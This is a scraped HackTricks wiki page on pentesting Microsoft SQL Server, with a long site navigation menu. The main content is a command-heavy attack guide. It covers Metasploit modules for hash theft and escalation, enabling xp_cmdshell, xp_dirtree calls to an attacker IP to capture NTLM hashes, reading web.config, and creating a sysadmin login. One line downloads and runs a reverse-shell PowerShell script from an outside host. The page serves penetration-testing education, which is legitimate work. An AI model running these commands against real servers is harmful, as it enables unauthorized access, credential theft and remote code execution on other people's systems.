


1433 - Pentesting MSSQL - Microsoft SQL Server - HackTricks

[    HackTricks](https://book.hacktricks.xyz/)

[HackTricks](https://book.hacktricks.xyz/)
[Pentesting Methodology](https://book.hacktricks.xyz/pentesting-methodology)
[About the author](https://book.hacktricks.xyz/about-the-author)
[Exfiltration](https://book.hacktricks.xyz/exfiltration)

[Tunneling and Port Forwarding](https://book.hacktricks.xyz/tunneling-and-port-forwarding)

[Brute Force - CheatSheet](https://book.hacktricks.xyz/brute-force)
[Search Exploits](https://book.hacktricks.xyz/search-exploits)
Shells

[Shells (Linux, Windows, MSFVenom)](https://book.hacktricks.xyz/shells/shells)

Linux/Unix

[Checklist - Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)

[Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation)

[Useful Linux Commands](https://book.hacktricks.xyz/linux-unix/useful-linux-commands)

[Linux Environment Variables](https://book.hacktricks.xyz/linux-unix/linux-environment-variables)

Windows

[Checklist - Local Windows Privilege Escalation](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)

[Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation)

[Active Directory Methodology](https://book.hacktricks.xyz/windows/active-directory-methodology)

[NTLM](https://book.hacktricks.xyz/windows/ntlm)

[Stealing Credentials](https://book.hacktricks.xyz/windows/stealing-credentials)

[Authentication, Credentials, Token privileges, UAC and EFS](https://book.hacktricks.xyz/windows/credentials)

[Basic CMD for Pentesters](https://book.hacktricks.xyz/windows/basic-cmd-for-pentesters)

[Basic PowerShell for Pentesters](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters)

[AV Bypass](https://book.hacktricks.xyz/windows/av-bypass)
Mobile Apps Pentesting

[Android APK Checklist](https://book.hacktricks.xyz/mobile-apps-pentesting/android-checklist)

[Android Applications Pentesting](https://book.hacktricks.xyz/mobile-apps-pentesting/android-app-pentesting)

Pentesting

[Pentesting Network](https://book.hacktricks.xyz/pentesting/pentesting-network)

[Pentesting JDWP - Java Debug Wire Protocol](https://book.hacktricks.xyz/pentesting/pentesting-jdwp-java-debug-wire-protocol)

[Pentesting Printers](https://book.hacktricks.xyz/pentesting/pentesting-printers)

[7/tcp/udp - Pentesting Echo](https://book.hacktricks.xyz/pentesting/7-tcp-udp-pentesting-echo)

[21 - Pentesting FTP](https://book.hacktricks.xyz/pentesting/pentesting-ftp)

[22 - Pentesting SSH/SFTP](https://book.hacktricks.xyz/pentesting/pentesting-ssh)

[23 - Pentesting Telnet](https://book.hacktricks.xyz/pentesting/pentesting-telnet)

[25,465,587 - Pentesting SMTP/s](https://book.hacktricks.xyz/pentesting/pentesting-smtp)

[43 - Pentesting WHOIS](https://book.hacktricks.xyz/pentesting/43-pentesting-whois)

[53 - Pentesting DNS](https://book.hacktricks.xyz/pentesting/pentesting-dns)

[69/UDP TFTP/Bittorrent-tracker](https://book.hacktricks.xyz/pentesting/69-udp-tftp)

[79 - Pentesting Finger](https://book.hacktricks.xyz/pentesting/pentesting-finger)

[80,443 - Pentesting Web Methodology](https://book.hacktricks.xyz/pentesting/pentesting-web)

[88tcp/udp - Pentesting Kerberos](https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88)

[110,995 - Pentesting POP](https://book.hacktricks.xyz/pentesting/pentesting-pop)

[111/TCP/UDP - Pentesting Portmapper](https://book.hacktricks.xyz/pentesting/pentesting-rpcbind)

[113 - Pentesting Ident](https://book.hacktricks.xyz/pentesting/113-pentesting-ident)

[123/udp - Pentesting NTP](https://book.hacktricks.xyz/pentesting/pentesting-ntp)

[135, 593 - Penstesting MSRPC](https://book.hacktricks.xyz/pentesting/135-penstesting-msrpc)

[137,138,139 - Pentesting NetBios](https://book.hacktricks.xyz/pentesting/137-138-139-pentesting-netbios)

[139,445 - Pentesting SMB](https://book.hacktricks.xyz/pentesting/pentesting-smb)

[143,993 - Pentesting IMAP](https://book.hacktricks.xyz/pentesting/pentesting-imap)

[161,162,10161,10162/udp - Pentesting SNMP](https://book.hacktricks.xyz/pentesting/pentesting-snmp)

[194,6667,6660-7000 - Pentesting IRC](https://book.hacktricks.xyz/pentesting/pentesting-irc)

[264 - Pentesting Check Point FireWall-1](https://book.hacktricks.xyz/pentesting/pentesting-264-check-point-firewall-1)

[389, 636, 3268, 3269 - Pentesting LDAP](https://book.hacktricks.xyz/pentesting/pentesting-ldap)

[500/udp - Pentesting IPsec/IKE VPN](https://book.hacktricks.xyz/pentesting/ipsec-ike-vpn-pentesting)

[502 - Pentesting Modbus](https://book.hacktricks.xyz/pentesting/pentesting-modbus)

[512 - Pentesting Rexec](https://book.hacktricks.xyz/pentesting/512-pentesting-rexec)

[513 - Pentesting Rlogin](https://book.hacktricks.xyz/pentesting/pentesting-rlogin)

[514 - Pentesting Rsh](https://book.hacktricks.xyz/pentesting/pentesting-rsh)

[515 - Pentesting Line Printer Daemon (LPD)](https://book.hacktricks.xyz/pentesting/515-pentesting-line-printer-daemon-lpd)

[548 - Pentesting Apple Filing Protocol (AFP)](https://book.hacktricks.xyz/pentesting/584-pentesting-afp)

[554,8554 - Pentesting RTSP](https://book.hacktricks.xyz/pentesting/554-8554-pentesting-rtsp)

[623/UDP/TCP - IPMI](https://book.hacktricks.xyz/pentesting/623-udp-ipmi)

[631 - Internet Printing Protocol(IPP)](https://book.hacktricks.xyz/pentesting/pentesting-631-internet-printing-protocol-ipp)

[873 - Pentesting Rsync](https://book.hacktricks.xyz/pentesting/873-pentesting-rsync)

[1026 - Pentesting Rusersd](https://book.hacktricks.xyz/pentesting/1026-pentesting-rusersd)

[1098/1099 - Pentesting Java RMI](https://book.hacktricks.xyz/pentesting/1099-pentesting-java-rmi)

[1433 - Pentesting MSSQL - Microsoft SQL Server](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)

[1521,1522-1529 - Pentesting Oracle TNS Listener](https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener)

[1723 - Pentesting PPTP](https://book.hacktricks.xyz/pentesting/1723-pentesting-pptp)

[1883 - Pentesting MQTT (Mosquitto)](https://book.hacktricks.xyz/pentesting/1883-pentesting-mqtt-mosquitto)

[2049 - Pentesting NFS Service](https://book.hacktricks.xyz/pentesting/nfs-service-pentesting)

[2301,2381 - Pentesting Compaq/HP Insight Manager](https://book.hacktricks.xyz/pentesting/pentesting-compaq-hp-insight-manager)

[3260 - Pentesting ISCSI](https://book.hacktricks.xyz/pentesting/3260-pentesting-iscsi)

[3299 - Pentesting SAPRouter](https://book.hacktricks.xyz/pentesting/3299-pentesting-saprouter)

[3306 - Pentesting Mysql](https://book.hacktricks.xyz/pentesting/pentesting-mysql)

[3389 - Pentesting RDP](https://book.hacktricks.xyz/pentesting/pentesting-rdp)

[3632 - Pentesting distcc](https://book.hacktricks.xyz/pentesting/3632-pentesting-distcc)

[4369 - Pentesting Erlang Port Mapper Daemon (epmd)](https://book.hacktricks.xyz/pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd)

[5353/UDP Multicast DNS (mDNS)](https://book.hacktricks.xyz/pentesting/5353-udp-multicast-dns-mdns)

[5432,5433 - Pentesting Postgresql](https://book.hacktricks.xyz/pentesting/pentesting-postgresql)

[5671,5672 - Pentesting AMQP](https://book.hacktricks.xyz/pentesting/5671-5672-pentesting-amqp)

[5800,5801,5900,5901 - Pentesting VNC](https://book.hacktricks.xyz/pentesting/pentesting-vnc)

[5984,6984 - Pentesting CouchDB](https://book.hacktricks.xyz/pentesting/5984-pentesting-couchdb)

[5985,5986 - Pentesting WinRM](https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-winrm)

[6000 - Pentesting X11](https://book.hacktricks.xyz/pentesting/6000-pentesting-x11)

[6379 - Pentesting Redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)

[8009 - Pentesting Apache JServ Protocol (AJP)](https://book.hacktricks.xyz/pentesting/8009-pentesting-apache-jserv-protocol-ajp)

[9042/9160 - Pentesting Cassandra](https://book.hacktricks.xyz/pentesting/cassandra)

[9100 - Pentesting Raw Printing (JetDirect, AppSocket, PDL-datastream)](https://book.hacktricks.xyz/pentesting/9100-pjl)

[9200 - Pentesting Elasticsearch](https://book.hacktricks.xyz/pentesting/9200-pentesting-elasticsearch)

[10000 - Pentesting Network Data Management Protocol (ndmp)](https://book.hacktricks.xyz/pentesting/10000-network-data-management-protocol-ndmp)

[11211 - Pentesting Memcache](https://book.hacktricks.xyz/pentesting/11211-memcache)

[15672 - Pentesting RabbitMQ Management](https://book.hacktricks.xyz/pentesting/15672-pentesting-rabbitmq-management)

[27017,27018 - Pentesting MongoDB](https://book.hacktricks.xyz/pentesting/27017-27018-mongodb)

[44818/UDP/TCP - Pentesting EthernetIP](https://book.hacktricks.xyz/pentesting/44818-ethernetip)

[47808/udp - Pentesting BACNet](https://book.hacktricks.xyz/pentesting/47808-udp-bacnet)

[50030,50060,50070,50075,50090 - Pentesting Hadoop](https://book.hacktricks.xyz/pentesting/50030-50060-50070-50075-50090-pentesting-hadoop)

Pentesting Web
[2FA Bypass](https://book.hacktricks.xyz/pentesting-web/2fa-bypass)

[Abusing hop-by-hop headers](https://book.hacktricks.xyz/pentesting-web/abusing-hop-by-hop-headers)

[Captcha Bypass](https://book.hacktricks.xyz/pentesting-web/captcha-bypass)

[Cache Poisoning and Cache Deception](https://book.hacktricks.xyz/pentesting-web/cache-deception)

[Clickjacking](https://book.hacktricks.xyz/pentesting-web/clickjacking)

[Client Side Template Injection (CSTI)](https://book.hacktricks.xyz/pentesting-web/client-side-template-injection-csti)

[Command Injection](https://book.hacktricks.xyz/pentesting-web/command-injection)

[Content Security Policy (CSP) Bypass](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass)

[Cookies Hacking](https://book.hacktricks.xyz/pentesting-web/hacking-with-cookies)

[CORS - Misconfigurations & Bypass](https://book.hacktricks.xyz/pentesting-web/cors-bypass)

[CRLF (%0D%0A) Injection](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a)

[Cross-site WebSocket hijacking (CSWSH)](https://book.hacktricks.xyz/pentesting-web/cross-site-websocket-hijacking-cswsh)

[CSRF (Cross Site Request Forgery)](https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery)

[Dangling Markup - HTML scriptless injection](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection)

[Deserialization](https://book.hacktricks.xyz/pentesting-web/deserialization)

[Email Header Injection](https://book.hacktricks.xyz/pentesting-web/email-header-injection)

[File Inclusion/Path traversal](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

[File Upload](https://book.hacktricks.xyz/pentesting-web/file-upload)

[HTTP Request Smuggling / HTTP Desync Attack](https://book.hacktricks.xyz/pentesting-web/http-request-smuggling)

[IDOR](https://book.hacktricks.xyz/pentesting-web/idor)

[JWT Vulnerabilities (Json Web Tokens)](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)

[NoSQL injection](https://book.hacktricks.xyz/pentesting-web/nosql-injection)
[LDAP Injection](https://book.hacktricks.xyz/pentesting-web/ldap-injection)

[OAuth to Account takeover](https://book.hacktricks.xyz/pentesting-web/oauth-to-account-takeover)

[Open Redirect](https://book.hacktricks.xyz/pentesting-web/open-redirect)
[Race Condition](https://book.hacktricks.xyz/pentesting-web/race-condition)

[Rate Limit Bypass](https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass)

[SQL Injection](https://book.hacktricks.xyz/pentesting-web/sql-injection)

[SSRF (Server Side Request Forgery)](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)

[SSTI (Server Side Template Injection)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

[Domain/Subdomain takeover](https://book.hacktricks.xyz/pentesting-web/domain-subdomain-takeover)

[Unicode Normalization vulnerability](https://book.hacktricks.xyz/pentesting-web/unicode-normalization-vulnerability)

[Web Tool - WFuzz](https://book.hacktricks.xyz/pentesting-web/web-tool-wfuzz)
[XPATH injection](https://book.hacktricks.xyz/pentesting-web/xpath-injection)

[XSLT Server Side Injection (Extensible Stylesheet Languaje Transformations)](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-languaje-transformations)

[XXE - XEE - XML External Entity](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)

[XSS (Cross Site Scripting)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)

[XSSI (Cross-Site Script Inclusion)](https://book.hacktricks.xyz/pentesting-web/xssi-cross-site-script-inclusion)

[XS-Search](https://book.hacktricks.xyz/pentesting-web/xs-search)
Physical attacks

[Physical Attacks](https://book.hacktricks.xyz/physical-attacks/physical-attacks)

[Escaping from KIOSKs](https://book.hacktricks.xyz/physical-attacks/escaping-from-gui-applications)

Exploiting

[Linux Exploiting (Basic) (SPA)](https://book.hacktricks.xyz/exploiting/linux-exploiting-basic-esp)

[Exploiting Tools](https://book.hacktricks.xyz/exploiting/tools)

[Windows Exploiting (Basic Guide - OSCP lvl)](https://book.hacktricks.xyz/exploiting/windows-exploiting-basic-guide-oscp-lvl)

[Reversing](https://book.hacktricks.xyz/exploiting/reversing)
Forensics
[Malware Analysis](https://book.hacktricks.xyz/forensics/malware-analysis)

[Memory dump analysis](https://book.hacktricks.xyz/forensics/memory-dump-analysis)

[Pcaps analysis](https://book.hacktricks.xyz/forensics/pcaps-analysis)

[Volatility - Examples](https://book.hacktricks.xyz/forensics/volatility-examples)

[Basic Forensics (ESP)](https://book.hacktricks.xyz/forensics/basic-forensics-esp)

Crypto

[Electronic Code Book (ECB)](https://book.hacktricks.xyz/crypto/electronic-code-book-ecb)

[Cipher Block Chaining CBC-MAC](https://book.hacktricks.xyz/crypto/cipher-block-chaining-cbc-mac-priv)

[Padding Oracle](https://book.hacktricks.xyz/crypto/padding-oracle-priv)

[RC4 - Encrypt&Decrypt](https://book.hacktricks.xyz/crypto/rc4-encrypt-and-decrypt)

[Crypto CTFs Tricks](https://book.hacktricks.xyz/crypto/crypto-ctfs-tricks)
BACKDOORS
[Merlin](https://book.hacktricks.xyz/backdoors/merlin)
[Empire](https://book.hacktricks.xyz/backdoors/empire)
[Salseo](https://book.hacktricks.xyz/backdoors/salseo)
[ICMPsh](https://book.hacktricks.xyz/backdoors/icmpsh)
Stego
[Stego Tricks](https://book.hacktricks.xyz/stego/stego-tricks)
[Esoteric languages](https://book.hacktricks.xyz/stego/esoteric-languages)
MISC

[Basic Python](https://book.hacktricks.xyz/misc/basic-python)

[Other Big References](https://book.hacktricks.xyz/misc/references)
TODO
[More Tools](https://book.hacktricks.xyz/todo/more-tools)
[MISC](https://book.hacktricks.xyz/todo/misc)
[Pentesting DNS](https://book.hacktricks.xyz/todo/pentesting-dns)
[Burp Suite](https://book.hacktricks.xyz/burp-suite)
[Other Web Tricks](https://book.hacktricks.xyz/other-web-tricks)
[Interesting HTTP](https://book.hacktricks.xyz/interesting-http)
[Emails Vulnerabilities](https://book.hacktricks.xyz/emails-vulns)

[Bug Bounties Methodology](https://book.hacktricks.xyz/bug-bounties-methodology)

[Cloud security review](https://book.hacktricks.xyz/cloud-security-review)
[Android Forensics](https://book.hacktricks.xyz/android-forensics)
[TR-069](https://book.hacktricks.xyz/tr-069)

[6881/udp - Pentesting BitTorrent](https://book.hacktricks.xyz/6881-udp-pentesting-bittorrent)

[CTF Write-ups](https://book.hacktricks.xyz/ctf-write-ups)

[1911 - Pentesting fox](https://book.hacktricks.xyz/1911-pentesting-fox)

[Online Platforms with API](https://book.hacktricks.xyz/online-platforms-with-api)

[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='currentColor' viewBox='0 0 1067 769' xmlns='http://www.w3.org/2000/svg' stroke='none' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1589'%3e%3cg data-evernote-id='1590' class='js-evernote-checked'%3e%3cpath d='M480.026 640.677c17.205 0 31.2 13.997 31.2 31.194s-13.995 31.193-31.2 31.193c-17.197 0-31.193-13.996-31.193-31.193 0-17.197 13.996-31.194 31.193-31.194m489.93-193.226c-17.203 0-31.2-13.998-31.2-31.195 0-17.204 13.997-31.2 31.2-31.2 17.198 0 31.194 13.996 31.194 31.2 0 17.197-13.996 31.195-31.193 31.195m0-127.804c-53.269 0-96.609 43.34-96.609 96.609 0 10.373 1.723 20.702 5.123 30.741L559.328 616.879c-18.132-26.128-47.521-41.617-79.302-41.617-36.821 0-70.391 21.065-86.63 54.003L106.68 478.109c-30.288-15.927-52.965-65.817-50.56-111.223 1.248-23.687 9.438-42.071 21.897-49.17 7.916-4.493 17.436-4.099 27.526 1.188l1.916 1.01c75.96 40.022 324.6 170.981 335.063 175.844 16.157 7.47 25.14 10.5 52.659-2.547l513.958-267.3c7.53-2.844 16.315-10.062 16.315-21.023 0-15.205-15.72-21.199-15.765-21.199-29.218-14.018-74.163-35.054-117.987-55.57C798.033 84.26 691.861 34.547 645.23 10.132c-40.253-21.072-72.655-3.311-78.432.282l-11.227 5.555C345.727 119.743 64.898 258.826 48.911 268.553 20.278 285.973 2.547 320.679.252 363.768c-3.586 68.304 31.261 139.506 81.069 165.634l303.172 156.354c6.83 47.306 47.55 82.725 95.532 82.725 52.78 0 95.808-42.546 96.603-95.14L910.541 492.38c16.93 13.233 37.92 20.486 59.416 20.486 53.268 0 96.61-43.341 96.61-96.61s-43.342-96.61-96.61-96.61' fill-rule='evenodd' data-evernote-id='1591' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e) Powered by**GitBook**](https://www.gitbook.com/?utm_source=content&utm_medium=trademark&utm_campaign=hacktricks)

# 1433 - Pentesting MSSQL - Microsoft SQL Server

#

Basic Information

 **Microsoft SQL Server** is a [relational database management system](https://en.wikipedia.org/wiki/Relational_database_management_system) developed by [Microsoft](https://en.wikipedia.org/wiki/Microsoft). As a [database server](https://en.wikipedia.org/wiki/Database_server), it is a [software product](https://en.wikipedia.org/wiki/Software_product) with the primary function of storing and retrieving data as requested by other [software applications](https://en.wikipedia.org/wiki/Software_application)—which may run either on the same computer or on another computer across a network (including the Internet). From [wikipedia](https://en.wikipedia.org/wiki/Microsoft_SQL_Server).

**Default port: **1433

Copy

1433/tcp open ms-sql-s Microsoft SQL Server 2017 14.00.1000.00; RTM

Search for *exploits/scripts/auxiliary modules* that can be helpful to find vulnerabilities in this kind of service:

Copy

2searchsploit "microsoft sql server"
3nmap --script-help "*ms* and *sql*"
4msf> search mssql

#

Information

##

**Default MS-SQL System Tables**

- **master Database** : Records all the system-level information for an instance of SQL Server.
- **msdb Database** : Is used by SQL Server Agent for scheduling alerts and jobs.
- **model Database** : Is used as the template for all databases created on the instance of SQL Server. Modifications made to the model database, such as database size, collation, recovery model, and other database options, are applied to any databases created afterwards.
- **Resource Database** : Is a read-only database that contains system objects that are included with SQL Server. System objects are physically persisted in the Resource database, but they logically appear in the sys schema of every database.
- **tempdb Database** : Is a work-space for holding temporary objects or intermediate result sets.

#

Info Gathering

If you don't know nothing about the service:

Copy

5nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>

6msf> use auxiliary/scanner/mssql/mssql_ping

If you **don't**  **have credentials** you can try to guess them. You can use nmap or metasploit. Be careful, you can **block accounts** if you fail login several times using an existing username.

##

Metasploit

Copy

7#Set USERNAME, RHOSTS and PASSWORD
8#Set DOMAIN and USE_WINDOWS_AUTHENT if domain is used
9​
10#Steal NTLM

11msf> use auxiliary/admin/mssql/mssql_ntlm_stealer #Steal NTLM hash, before executing run Responder

12​
13#Info gathering
14msf> use admin/mssql/mssql_enum #Security checks
15msf> use admin/mssql/mssql_enum_domain_accounts
16msf> use admin/mssql/mssql_enum_sql_logins
17msf> use auxiliary/admin/mssql/mssql_findandsampledata
18msf> use auxiliary/scanner/mssql/mssql_hashdump
19msf> use auxiliary/scanner/mssql/mssql_schemadump
20​
21#Search for insteresting data
22msf> use auxiliary/admin/mssql/mssql_findandsampledata
23msf> use auxiliary/admin/mssql/mssql_idf
24​
25#Privesc
26msf> use exploit/windows/mssql/mssql_linkcrawler

27msf> use admin/mssql/mssql_escalate_execute_as #If the user has IMPERSONATION privilege, this will try to escalate

28msf> use admin/mssql/mssql_escalate_dbowner #Escalate from db_owner to sysadmin

29​
30#Code execution
31msf> use admin/mssql/mssql_exec #Execute commands
32msf> use exploit/windows/mssql/mssql_payload #Uploads and execute a payload
33​
34#Add new admin user from meterpreter session
35msf> use windows/manage/mssql_local_auth_bypass

##

**​**[**Brute force**](https://book.hacktricks.xyz/brute-force#sql-server)**​**

#

Tricks

##

Execute commands

Copy

36#this turns on advanced options and is needed to configure xp_cmdshell
37sp_configure 'show advanced options', '1'
38RECONFIGURE
39#this enables xp_cmdshell
40sp_configure 'xp_cmdshell', '1'
41RECONFIGURE
42# Quickly check what the service account is via xp_cmdshell
43EXEC master..xp_cmdshell 'whoami'

##

NTLM Service Hash gathering

​[You can extract the](https://blog.netspi.com/executing-smb-relay-attacks-via-sql-server-using-metasploit/)  [**NTLM hash**](https://blog.netspi.com/executing-smb-relay-attacks-via-sql-server-using-metasploit/)  [of the user making the service authenticate against you.](https://blog.netspi.com/executing-smb-relay-attacks-via-sql-server-using-metasploit/)You should start a **SMB server** to capture the hash used in the authentication (impacket-smbserver or responder for example).

Copy

44xp_dirtree '\\<attacker_IP>\any\thing'
45exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
46msf> use auxiliary/admin/mssql/mssql_ntlm_stealer

##

Abusing MSSQL trusted Links

**​**[**Read this post**](https://book.hacktricks.xyz/windows/active-directory-methodology/mssql-trusted-links)** to find more information about how to abuse this feature**

##

**Read files executing scripts (Python and R)**

MSSQL could allow you to execute **scripts in Python and/or R**. These code will be executed by a **different user** than the one using **xp_cmdshell **to execute commands.

Example trying to execute a** 'R'**  *"Hellow World!"*  **not working**:

Example using configured python to perform several actions:

Copy

47#Print the user being used (and execute commands)

48EXECUTE sp_execute_external_script @language  = N'Python',  @script  = N'print(__import__("getpass").getuser())'

49EXECUTE sp_execute_external_script @language  = N'Python',  @script  = N'print(__import__("os").system("whoami"))'

50#Open and read a file

51EXECUTE sp_execute_external_script @language  = N'Python',  @script  = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'

52#Multiline
53EXECUTE sp_execute_external_script @language  = N'Python',  @script  = N'
54import sys
55print(sys.version)
56'
57GO

##

From db_owner to sysadmin

​[If you have the](https://blog.netspi.com/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases/)  [**credentials of a db_owner user**](https://blog.netspi.com/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases/)​[, you can become](https://blog.netspi.com/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases/)  [**sysadmin**](https://blog.netspi.com/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases/)  [and](https://blog.netspi.com/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases/)  [**execute commands**](https://blog.netspi.com/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases/)​

Copy

msf> use auxiliary/admin/mssql/mssql_escalate_dbowner

##

Impersonation of other users

​[IMPERSONATE privilege can lead to privilege escalation in SQL Server.](https://blog.netspi.com/hacking-sql-server-stored-procedures-part-2-user-impersonation/)​

Copy

msf> auxiliary/admin/mssql/mssql_escalate_execute_as

##

Using MSSQL for Persistence

​https://blog.netspi.com/sql-server-persistence-part-1-startup-stored-procedures/​

#

Having credentials

##

Mssqlclient.py

You can login into the service using **impacket mssqlclient.py**

Copy

60mssqlclient.py -db volume -windows-auth <DOMAIN>/<USERNAME>:<PASSWORD>@<IP>  #Recommended -windows-auth when you are going to use a domain. use as domain the netBIOS name of the machine

61​
62#Once logged in you can run queries:
63SQL>  select @@ version;
64​
65#Steal NTLM hash
66sudo responder -I <interface>  #Run that in other console

67SQL>  exec master..xp_dirtree '\\<YOUR_RESPONDER_IP>\test'  #Steal the NTLM hash, crack it with john or hashcat

68​
69#Try to enable code execution
70SQL> enable_xp_cmdshell
71​
72#Execute code, 2 sintax, for complex and non complex cmds
73SQL> xp_cmdshell whoami /all

74SQL> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.13:8000/rev.ps1") | powershell -noprofile'

##

sqsh

Copy

sqsh -S <IP> -U <Username> -P <Password> -D <Database>

#

Manual

Copy

76SELECT name FROM master.dbo.sysdatabases #Get databases
77SELECT  *  FROM  <databaseName>.INFORMATION_SCHEMA.TABLES;  #Get table names
78#List users

79select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date,  case  when sp.is_disabled =  1  then  'Disabled'  else  'Enabled'  end  as  status  from sys.server_principals sp left  join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type  not  in  ('G',  'R')  order  by sp.name;

80#Create user with sysadmin privs
81CREATE LOGIN hacker WITH PASSWORD =  'P@ssword123!'
82sp_addsrvrolemember 'hacker',  'sysadmin'

#

Post Explotation

The user running MSSQL server will have enabled the privilege token **SeImpersonatePrivilege.**You probably will be able to escalate to Administrator using this token: [Juicy-potato](https://github.com/ohpe/juicy-potato)​

[ Pentesting - Previous 1098/1099 - Pentesting Java RMI](https://book.hacktricks.xyz/pentesting/1099-pentesting-java-rmi)[ Next - Pentesting  1521,1522-1529 - Pentesting Oracle TNS Listener   ](https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener)

CPol
Last updated 3 months ago

 [![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='currentColor' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 438.549 438.549' stroke='none' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='3034'%3e%3cg data-evernote-id='3035' class='js-evernote-checked'%3e%3cpath d='M409.132 114.573c-19.608-33.596-46.205-60.194-79.798-79.8-33.598-19.607-70.277-29.408-110.063-29.408-39.781 0-76.472 9.804-110.063 29.408-33.596 19.605-60.192 46.204-79.8 79.8C9.803 148.168 0 184.854 0 224.63c0 47.78 13.94 90.745 41.827 128.906 27.884 38.164 63.906 64.572 108.063 79.227 5.14.954 8.945.283 11.419-1.996 2.475-2.282 3.711-5.14 3.711-8.562 0-.571-.049-5.708-.144-15.417a2549.81 2549.81 0 0 1-.144-25.406l-6.567 1.136c-4.187.767-9.469 1.092-15.846 1-6.374-.089-12.991-.757-19.842-1.999-6.854-1.231-13.229-4.086-19.13-8.559-5.898-4.473-10.085-10.328-12.56-17.556l-2.855-6.57c-1.903-4.374-4.899-9.233-8.992-14.559-4.093-5.331-8.232-8.945-12.419-10.848l-1.999-1.431c-1.332-.951-2.568-2.098-3.711-3.429-1.142-1.331-1.997-2.663-2.568-3.997-.572-1.335-.098-2.43 1.427-3.289 1.525-.859 4.281-1.276 8.28-1.276l5.708.853c3.807.763 8.516 3.042 14.133 6.851 5.614 3.806 10.229 8.754 13.846 14.842 4.38 7.806 9.657 13.754 15.846 17.847 6.184 4.093 12.419 6.136 18.699 6.136 6.28 0 11.704-.476 16.274-1.423 4.565-.952 8.848-2.383 12.847-4.285 1.713-12.758 6.377-22.559 13.988-29.41-10.848-1.14-20.601-2.857-29.264-5.14-8.658-2.286-17.605-5.996-26.835-11.14-9.235-5.137-16.896-11.516-22.985-19.126-6.09-7.614-11.088-17.61-14.987-29.979-3.901-12.374-5.852-26.648-5.852-42.826 0-23.035 7.52-42.637 22.557-58.817-7.044-17.318-6.379-36.732 1.997-58.24 5.52-1.715 13.706-.428 24.554 3.853 10.85 4.283 18.794 7.952 23.84 10.994 5.046 3.041 9.089 5.618 12.135 7.708 17.705-4.947 35.976-7.421 54.818-7.421s37.117 2.474 54.823 7.421l10.849-6.849c7.419-4.57 16.18-8.758 26.262-12.565 10.088-3.805 17.802-4.853 23.134-3.138 8.562 21.509 9.325 40.922 2.279 58.24 15.036 16.18 22.559 35.787 22.559 58.817 0 16.178-1.958 30.497-5.853 42.966-3.9 12.471-8.941 22.457-15.125 29.979-6.191 7.521-13.901 13.85-23.131 18.986-9.232 5.14-18.182 8.85-26.84 11.136-8.662 2.286-18.415 4.004-29.263 5.146 9.894 8.562 14.842 22.077 14.842 40.539v60.237c0 3.422 1.19 6.279 3.572 8.562 2.379 2.279 6.136 2.95 11.276 1.995 44.163-14.653 80.185-41.062 108.068-79.226 27.88-38.161 41.825-81.126 